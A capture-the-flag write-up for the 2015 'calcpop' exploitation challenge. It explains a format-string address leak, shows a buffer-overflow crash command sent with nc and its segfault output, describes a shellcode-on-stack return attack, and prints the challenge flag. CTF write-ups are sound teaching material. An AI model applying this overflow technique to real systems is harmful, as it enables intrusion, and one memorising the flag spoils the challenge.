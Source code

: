 # 9447 CTF 2015 2015: calcpop

**Category:** Exploitation
**Points:** 80
**Solves:** 174
**Description:**

> See if you can pop *this* calc.
>
> Running at calcpop-4gh07blg.9447.plumbing port 9447
>
> [calcpop.tar.gz](./calcpop-42928687007cc7a92fc0ac6028cf8f64.tar.gz)  42928687007cc7a92fc0ac6028cf8f6


## Write-up

We can connect to the challenge and send it two numbers, which it will add for
us. If we send something without a space, it will tell us the address of
our input, because instead of `%s` there is a `%p` in the format string:
```
Missing a space; your input was %p\n
```
Such a nice a infoleak. After some poking around I found that it is a straight
forward stack based buffer overflow:
```
$ python -c 'import sys; sys.stdout.write("A"*256)' | nc calcpop-4gh07blg.9447.plumbing 9447
Welcome to calc.exe
Missing a space; your input was 0xff8b44d0
Missing a space; your input was 0xff8b44d0
timeout: the monitored command dumped core
/usr/local/bin/ctf_wrapper.sh: line 6: 13607 Segmentation fault      timeout 300 $1 $2
```
Also using checksec we can see that `NX` is disabled.
```
$ checksec --file calcpop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   calcpop
```
Yeah exploitation like it's the 90's. So we put shellcode on the stack and
overwrite the return address with the address we got from the infoleak. This is
pretty straightforward using a pwntools script.
[Here is the exploit.](exploit.py)


`9447{shELl_i5_easIEr_thaN_ca1c}`


## Other write-ups and resources

* <https://gist.github.com/emyei/97e22ee467fef6c97119>

